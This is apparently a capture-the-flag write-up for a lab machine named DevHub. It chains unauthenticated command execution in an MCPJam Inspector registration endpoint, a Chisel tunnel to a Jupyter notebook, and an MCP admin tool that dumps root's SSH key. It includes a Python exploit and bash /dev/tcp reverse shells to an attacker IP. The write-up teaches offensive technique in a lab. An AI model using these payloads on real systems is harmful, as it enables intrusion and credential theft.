





DevHub
1. Reconnaissance
Ports Scan
nmap -sS -sC -sV -p- -T4 -oN nmap-result.txt -oX nmap-result.xml <target-ip>Open Ports:
- 22/tcp – SSH (OpenSSH 8.9p1 Ubuntu)
- 80/tcp – HTTP (nginx 1.18.0 → redirects to
devhub.htb) - 6274/tcp – HTTP (MCPJam Inspector)
💡 Info
Register the hostname before browsing:
echo '<target-ip> devhub.htb' | sudo tee -a /etc/hostsMCPJam Inspector is at http://devhub.htb:6274. Registration accepts a server config with arbitrary command / args — unauthenticated RCE.

[image: MCPJam Inspector]'">2. Exploitation
Unauthenticated RCE via MCP Registration
Intercepting registration traffic (Burp) shows the interesting fields:
serverIdserverConfig.timeoutserverConfig.command/args/env

[image: Burp registration request]'">Trigger a reverse shell with a simple POST:
import requests
import json
target = "http://devhub.htb:6274"
your_ip = "<attacker-ip>"
your_port = "4444"
payload = {
"serverId": "pwned",
"serverConfig": {
"timeout": 10000,
"command": "bash",
"args": ["-c", f"bash -i >& /dev/tcp/{your_ip}/{your_port} 0>&1"],
"env": {}
}
}
response = requests.post(
f"{target}/api/mcp/servers/reconnect",
json=payload,
headers={"Content-Type": "application/json"}
)
print(f"Status: {response.status_code}")
print(f"Response: {response.text}")# terminal 1
nc -lnvp 4444
# terminal 2
python3 exploit.pyShell lands as mcp-dev.
Lateral Movement → analyst (Jupyter)
Process listing shows a Jupyter Notebook owned by analyst on 127.0.0.1:8888 (not reachable externally).

[image: Jupyter process]'">Port forward with SSH (if you already have mcp-dev keys/password):
ssh -L 8888:127.0.0.1:8888 mcp-dev@devhub.htbOr with Chisel (no SSH creds needed):
# attacker
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
chmod +x chisel_1.9.1_linux_amd64
python3 -m http.server
./chisel_1.9.1_linux_amd64 server -p 8001 --reverse
# target
wget http://<attacker-ip>:8000/chisel_1.9.1_linux_amd64 -O chisel
chmod +x chisel
./chisel client <attacker-ip>:8001 R:8888:127.0.0.1:8888Open http://127.0.0.1:8888, run in a notebook cell:
import os
os.system('whoami')
# analyst
# start listener: nc -lnvp 5555
os.system('bash -c "bash -i >& /dev/tcp/<attacker-ip>/5555 0>&1"')
[image: Jupyter reverse shell]'">cd /home/analyst
cat user.txt3. Privilege Escalation
Root MCP Tool → SSH Key Dump
A root-owned /opt/opsmcp/server.py exposes tools on port 5000. Source reveals the API key, tool names, and that ops._admin_dump can return SSH keys.
cat /opt/opsmcp/server.py
# Bearer / X-API-Key, tool names, credentials hints, app on :5000curl -s -X POST http://127.0.0.1:5000/tools/call \
-H "X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a" \
-H "Content-Type: application/json" \
-d '{"name":"ops._admin_dump","arguments":{"target":"ssh_keys","confirm":true}}' \
| python3 -c "import sys, json; print(json.load(sys.stdin)['root_private_key'].replace('\\n', '\n'))"
[image: root key dump]'">ssh -i root.key root@devhub.htb
cat /root/root.txt4. Flag Paths
- User flag:
/home/analyst/user.txt - Root flag:
/root/root.txt
✅ Lessons Learned
An unauthenticated MCP “server registration” that executes arbitrary
command/args is straight RCE. From mcp-dev, a localhost Jupyter instance owned by analyst was one tunnel away from a second user shell. Finally, a root MCP admin tool protected only by a static API key dumped root’s SSH private key. Never expose debug/admin tool bridges without authz, and keep internal notebooks off shared hosts without strong binding controls.